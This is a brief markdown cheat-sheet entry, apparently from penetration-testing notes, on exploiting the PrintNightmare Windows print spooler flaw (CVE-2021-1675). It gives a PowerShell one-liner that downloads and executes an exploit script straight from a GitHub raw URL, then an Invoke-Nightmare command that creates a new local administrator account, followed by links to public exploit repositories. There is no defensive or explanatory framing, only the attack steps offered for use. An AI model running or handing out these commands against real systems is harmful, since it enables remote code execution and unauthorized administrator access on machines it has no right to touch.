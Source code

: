 ### Download exploit
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1'))
```

### Add new user (localAdmin)
```
Invoke-Nightmare -NewUser <user> -NewPassword "<password>" -Drivername "<name>"
```

### References
https://github.com/calebstewart/CVE-2021-1675  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpPrintNightmare.ps1  
https://github.com/cube0x0/CVE-2021-1675  

